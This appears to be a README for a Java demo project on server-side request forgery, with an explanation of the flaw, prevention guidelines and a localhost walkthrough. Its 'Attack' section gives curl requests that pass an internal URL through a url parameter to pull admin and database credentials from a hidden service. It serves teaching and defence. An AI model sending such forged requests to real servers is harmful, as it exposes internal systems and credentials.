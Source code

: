 # What is SSRF?

Server-side request forgery (also known as SSRF) is a web security vulnerability that allows an attacker to induce the server-side application to make HTTP requests to an arbitrary domain of the attacker's choosing.

Criminals usually use SSRF attacks to target internal systems that are behind firewalls and are not accessible from the external network.
Typical exploitation of a server-side request forgery vulnerability

In a typical SSRF scenario, an external attacker who wants to access an internal server can’t use direct requests because they would be blocked by the firewall. Instead, malicious actors can exploit an SSRF vulnerability to make their attack via a vulnerable web server:


![SSRF](ssrf.png)


### Steps :
* The attacker sends a forged request to a web server that is vulnerable to SSRF and resides on the same internal network as the target server.
* The vulnerable web server sends the attacker-controlled request to the victim’s server, bypassing the firewall.
* The victim’s server responds to the web server with the requested data.
If the specific SSRF vulnerability permits it, the data is sent back to the attacker. In most cases, the attacker will need to exfiltrate or infer this information by other means (out-of-band).


## Why is server-side request forgery dangerous?
While many web vulnerabilities directly affect the target system, SSRF allows attackers to use the target as an intermediary that passes requests to a third system. So while an SSRF attack might not be damaging in itself, it can provide malicious hackers with access to internal systems that were never supposed to be accessible from the Internet. There are several reasons why this is dangerous.

### Prevent:
To prevent SSRF vulnerabilities in web applications, it is recommended to adhere to the following guidelines:
* Use a whitelist of allowed domains, resources and protocols from where the web server can fetch resources.
* Any input accepted from the user should be validated and rejected if it does not match the positive specification expected.
* If possible, do not accept user input in functions that control where the web server can fetch resources.

## Example

We have created three service for demo purpose

1. **public-web-service** : This service is exposed on internet
2. **internal-user-service** : This service is not exposed to internet but the resources can be accessible by **public web server**
3. **internal-admin-service** : This service is not exposed to internet. Attacker will try to access this service and retrive sensitive data by ssrf attack.

In a internal user service, we have a userdetails endpoint which will provide user related basic information.

### Get User Information
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userDetail/0
```
### Response
```json
{'name':'User-0','id':'0'}
```

### Get User Address
```java
curl http://localhost:8080/api/users?url=http://localhost:8081/api/userAddress/0
```

### Response
```json
{'address':'Ahmedabad, India','id':'0'}
```

# Attack

**Attacker will try to scan multiple ports via changing port number in url like below and he founds `8083` is reachable port.
He will try to get `adminDetail` using below endpoint.**


### Admin Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/adminDetail
```

```json
{'username':'admin','password':'OhMyGod@123'}
```

### Db Sensitive Details
```json
curl http://localhost:8080/api/users?url=http://localhost:8083/api/dbDetail
```

```json
{'dbName':'controller','host':'10.0.1.35','username':'root', 'password':'XSuper@#12345', 'port':'5432'}
```

curl localhost:8080/management/mappings

**Useful Links**
https://www.hackerone.com/application-security/how-server-side-request-forgery-ssrf


